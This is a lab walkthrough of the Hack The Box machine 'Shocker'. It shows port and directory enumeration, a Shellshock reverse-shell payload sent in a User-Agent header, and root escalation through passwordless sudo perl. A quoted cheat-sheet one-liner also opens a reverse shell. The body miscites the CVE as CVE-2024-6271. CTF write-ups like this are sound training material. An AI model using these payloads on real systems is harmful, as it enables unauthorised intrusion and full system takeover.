


---
tags:
  - shellshock
  - CVE-2014-6271
group: Linux
---


- Machine : https://app.hackthebox.com/machines/Shocker
- Reference : https://0xdf.gitlab.io/2021/05/25/htb-shocker.html
- Solved : 2025.1.21. (Tue) (Takes 1day)

## Summary
---

1. **Initial Enumeration**
    - **Open Ports**: Found ports 80 (HTTP) and 2222 (SSH) open.
    - **HTTP Service**:
        - Discovered Apache 2.4.18 (Ubuntu) hosting `/cgi-bin/`.
        - Identified `/cgi-bin/user.sh` script via Gobuster.
        
2. **Web Exploitation**
    - **Shellshock Exploit** (CVE-2024-6271):
        - Used a crafted `User-Agent` header to exploit the Shellshock vulnerability in `/cgi-bin/user.sh`.
        - Gained a reverse shell as user `shelly`.
        
3. **Privilege Escalation**
    - **Sudo Privileges**:
        - Identified `sudo` permission to execute `/usr/bin/perl` as root without a password.
        - Used GTFOBins technique: `sudo perl -e 'exec "/bin/sh";'`.
        - Escalated privileges to root.

### Key Techniques:

- **Directory Enumeration**: Identified `/cgi-bin/user.sh` using Gobuster.
- **Shellshock Exploit**: Achieved code execution via a vulnerable CGI script.
- **GTFOBins**: Leveraged `sudo perl` for privilege escalation to root.

---

# Reconnaissance

### Port Scanning

```bash
┌──(kali㉿kali)-[~]
└─$ /opt/custom-scripts/port-scan.sh 10.10.10.56
Performing quick port scan on 10.10.10.56...
Found open ports: 80,2222
Performing detailed scan on 10.10.10.56...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-21 04:22 MST
Nmap scan report for 10.10.10.56
Host is up (0.12s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.99 seconds
```

- 2 ports are open : http(80), ssh(2222)

### http(80)



```bash
┌──(kali㉿kali)-[~]
└─$ nikto -h http://10.10.10.56
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.10.10.56
+ Target Hostname:    10.10.10.56
+ Target Port:        80
+ Start Time:         2025-01-21 04:25:32 (GMT-7)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ /: Server may leak inodes via ETags, header found with file /, inode: 89, size: 559ccac257884, mtime: gzip. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ OPTIONS: Allowed HTTP Methods: POST, OPTIONS, GET, HEAD .
+ /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/
```

It's mentioning `/cgi-bin` with `CVE-2003-1418`.
`/cgi-bin` is probably a directory, so I need to test it with `-f` option to add slash when using `gobuster`.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ gobuster dir -u http://10.10.10.56 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -f
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.56
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Add Slash:               true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/cgi-bin/             (Status: 403) [Size: 294]
/icons/               (Status: 403) [Size: 292]
```

It returns `/cgi-bin`.

Let's find what scripts are in there.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ gobuster dir -u http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -x cgi,pl,py,sh,php,bat
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.56/cgi-bin/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,bat,cgi,pl,py,sh
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/user.sh              (Status: 200) [Size: 119]
Progress: 6713 / 6720 (99.90%)
===============================================================
Finished
===============================================================
```

`/user.sh` exists!

```bash
┌──(kali㉿kali)-[~/htb]
└─$ curl http://10.10.10.56/cgi-bin/user.sh
Content-Type: text/plain

Just an uptime test script

 06:51:46 up 33 min,  0 users,  load average: 0.03, 0.02, 0.00
```

It seems that the script just returns uptime information.
I think it's the output of linux command `uptime`.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ uptime
 04:54:25 up 41 min,  2 users,  load average: 0.02, 0.11, 0.09
```


# Shell as `shelly`

### Shellshock exploit(CVE-2024-6271)

Given the linux command running on `/cgi-bin/user.sh`, I can try shellshock attack.

Here's the cheat-sheet for this;

```bash
**Shellshock PoC to gain a Reverse Shell:**\
`curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/your-ip/your-nc-port 0>&1' http://target.com/cgi-bin/access.cgi`
```

Let's try this on the target.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ curl -H "User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.10/9000 0>&1" http://10.10.10.56/cgi-bin/user.sh
```

```bash
┌──(kali㉿kali)-[~/htb]
└─$ nc -nlvp 9000              
listening on [any] 9000 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.56] 34962
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ id
id
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
shelly@Shocker:/usr/lib/cgi-bin$ whoami
whoami
shelly
```

I got a shell as `shelly`!


# Shell as `root`

### Enumeration

```bash
shelly@Shocker:/home/shelly$ ./linpeas.sh

╔══════════╣ Sudo version
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#sudo-version                                                          
Sudo version 1.8.16  


╔══════════╣ My user
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#users                                                                 
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)


╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#sudo-and-suid                                                         
Matching Defaults entries for shelly on Shocker:                            
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl


╔══════════╣ Checking Pkexec policy
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/interesting-groups-linux-pe/index.html#pe---method-2                             
[Configuration]
AdminIdentities=unix-user:0
[Configuration]
AdminIdentities=unix-group:sudo;unix-group:admin
```

Some interesting findings are found, but I think `sudoer` might be the first one to try.

### Exploit with 'sudoable' `perl`

I double checked it again.

```bash
shelly@Shocker:/home/shelly$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

From GTFOBins I could find the following : `sudo perl -e 'exec "/bin/sh";'`



Let's try it.

```bash
shelly@Shocker:/home/shelly$ sudo perl -e 'exec "/bin/sh";'
sudo perl -e 'exec "/bin/sh";'
python3 -c 'import pty;pty.spawn("/bin/bash")' 
root@Shocker:/home/shelly# whoami
whoami
root
root@Shocker:/home/shelly# id
id
uid=0(root) gid=0(root) groups=0(root)
```

I got a `root` shell!